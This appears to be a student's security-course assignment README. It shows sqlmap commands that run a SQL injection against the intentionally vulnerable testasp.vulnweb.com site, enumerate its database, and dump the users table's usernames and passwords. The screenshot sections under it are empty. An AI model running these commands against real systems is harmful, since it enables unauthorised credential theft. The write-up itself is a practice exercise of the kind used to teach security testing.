








# Abdullah Baig | 231485698 | Assignment 1

## Installation of `sqlmap`
- Installed ```sqlmap``` on Ubuntu Terminal using ```sudo apt install sqlmap```.


# SQL Injection Attack
- Go to [Vulnweb](https://vulnweb.com)
- Next step is to find a link that makes a request to the database, the link is `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 --dbs`
- To find tables `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum --tables`
- To find columns `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1-D acuforum -T users --columns`
- Dump username and password column with data in a file `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C uname --dump` & `sqlmap -u testasp.vulnweb.com/showforum.asp?id=1 -D acuforum -T users -C upass --dump`

This is how the usernames and passwords of [Acuform](http://testasp.vulnweb.com/) were obtained including the admin credentials.

# Dump / Screenshots
## Command 1




## Command 2



## Command 3


## Command 4


## Command 5



